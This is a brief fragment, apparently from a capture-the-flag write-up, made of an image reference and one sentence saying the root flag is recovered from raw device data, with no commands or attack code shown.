

The root flag is recovered directly from the raw device data.
